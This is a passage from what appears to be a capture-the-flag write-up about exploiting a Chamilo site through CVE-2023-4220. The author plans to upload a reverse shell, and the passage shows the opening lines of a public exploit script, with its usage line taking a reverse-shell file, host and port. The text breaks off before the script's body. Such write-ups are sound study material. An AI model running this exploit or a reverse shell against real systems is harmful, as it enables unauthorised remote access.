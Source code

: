 I tried to google it and realized that that version had an error that could help us with RCE. It is <mark style="color:red;">**`CVE-2023-4220`**</mark>. You can read more information[ **here**](https://starlabs.sg/advisories/23/23-4220/)

Besides, I tried going to <mark style="color:red;">**`/app`**</mark>  to see its config section hoping it could give me the user's password but I didn't get anything.

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

## CVE-2023-4220

Based on this article I can upload revshell to the website easily

I use an exploit developed by [Ziad-Sakr](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit)

```bash
# Usage:  ./CVE-2023-4220.sh -f reveres_file -h host_link -p port_in_the_reverse_file

#!/bin/bash

# Initialize variables with default values
reverse_file=""
host_link=""
port=""

#------------------------------------------------

RED='\033[0;31m'
```